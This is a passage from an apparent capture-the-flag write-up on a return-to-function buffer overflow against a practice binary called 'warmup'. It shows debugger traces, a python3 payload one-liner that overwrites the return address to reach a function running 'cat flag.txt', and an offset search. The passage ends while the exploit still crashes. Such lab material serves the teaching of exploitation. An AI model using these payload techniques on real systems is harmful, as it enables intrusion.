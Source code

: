 ```sh
     0x400608 <frame_dummy+0028> jmp    0x400580 <register_tm_clones>
 →   0x40060d <easy+0000>      push   rbp
     0x40060e <easy+0001>      mov    rbp, rsp
     0x400611 <easy+0004>      mov    edi, 0x400734
     0x400616 <easy+0009>      call   0x4004d0 <system@plt>
     0x40061b <easy+000e>      pop    rbp
     0x40061c <easy+000f>      ret
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x40060d in easy (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40060d → easy()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

- This means `easy` was executed, but program still SEGFAULTs.
- That's because we jumped to `easy` basically, and haven't returned from `main`.
- But if we jumped to `easy`, then why is there no flag?
- Just before it calls `system` command in `easy` it SEGFAULTs and crashes.

```sh
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7c50973 → __sigemptyset(set=<optimized out>)
[#1] 0x7ffff7c50973 → do_system(line=0x400734 "cat flag.txt")
[#2] 0x40061b → easy()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  ni

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
```


- Address of `ret` instruction in `main` is `0x00000000004006a3`, or `\xa3\x06\x40\x00\x00\x00\x00\x00`

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72 + b"\x0d\x06\x40\x00\x00\x00\x00\x00" + b"\xa3\x06\x40\x00\x00\x00\x00\x00")'  | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
```

- Let's figure out how much bytes I really need to send before I start overwritting return address:

```sh
gef➤  search-pattern abcd
[+] Searching 'abcd' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6022a0 - 0x6022a6  →   "abcd\n" 
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7ffff7dbd000-0x7ffff7e15000), permission=r--
  0x7ffff7dcbec1 - 0x7ffff7dcbec5  →   "abcd[...]" 
  0x7ffff7ddcb46 - 0x7ffff7ddcb60  →   "abcdefghijklmnopqrstuvwxyz" 
  0x7ffff7ddcb8a - 0x7ffff7ddcba4  →   "abcdefghijklmnopqrstuvwxyz" 
  0x7ffff7ddcc00 - 0x7ffff7ddcc37  →   "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWX[...]" 
  0x7ffff7de1cca - 0x7ffff7de1cd0  →   "abcdef" 
[+] In '/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2'(0x7ffff7fef000-0x7ffff7ffa000), permission=r--
  0x7ffff7ff2cda - 0x7ffff7ff2ce0  →   "abcdef" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdd30 - 0x7fffffffdd34  →   "abcd" 
```